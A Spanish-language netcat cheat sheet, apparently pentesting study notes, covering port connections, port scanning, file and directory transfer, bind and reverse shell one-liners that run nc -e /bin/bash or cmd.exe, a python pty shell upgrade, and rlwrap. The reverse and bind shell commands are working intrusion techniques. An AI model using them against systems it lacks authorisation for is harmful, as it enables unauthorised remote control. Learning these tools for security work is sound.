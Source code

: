 ### Descargar Netcat para Windows
	https://eternallybored.org/misc/netcat/

### Conexion a puertos
	Servidor
	nc -lvp 1000
	
	Cliente
	nc 127.0.0.1 1000

### Conectar con DNS de google 
	nc -v -u 8.8.8.8 53

### Conectar a una Web
	nc -v plaintext.do 80
	GET / HTTP/1.1 
	
### Escaneo de puertos 
	nc -z -vv plaintext.do 78-81
	nc -z -vv 185.199.109.153 78-81
	nc -z -vvn 185.199.109.153 78-81 # evitar inverse host lookup
	
### Transferencia de archivos
	Para Recibir 
	nc -lvnp 1000 > file.txt
	
	Para Enviar
	nc ipreceptor 1000 < file.txt 
	
	Usar md5sum para confirmar que el archivo transferido es identico al recibido
	md5sum file.txt 
	
### Transferencia de grupo de archivos y directorios 
	Para recibir 
	nc -lvnp 1000 | tar -xvf -
	
	Para enviar
	tar -cvf - directorio/ | nc 127.0.0.1 1000

### BindShell
	Servidor
	nc -lvnp 2000 -e /bin/bash (linux)
	nc -lvnp 2000 -e cmd.exe (windows)
	
	Cliente 
	nc 192.168.249.128 2000
	
### Reverse shell
	Servidor 
	nc 192.168.249.128 2000 -e /bin/bash (linux)
	nc 192.168.249.128 2000 -e cmd.exe (windows)
	
	Cliente 
	nc -lvnp 2000
	
	
### python pty 
	python -c "import pty;pty.spawn('/bin/bash')"
	CTRL + Z
	stty raw -echo
	fg
	ENTER

## rlwrap 
rlwrap - https://twitter.com/4lex/status/1099803151832633350

### Instalar rlwrap
	apt-get install rlwrap
	
#### Permite utilizar:
	Teclas de subir y bajar, para el historial de comandos.
	ctrl + L - (limpiar pantalla) 
	Tab auto completar (linux)
	
	rlwrap -c nc -lvnp 2000
	rlwrap -c nc 192.168.249.1 4444 -e /bin/bash 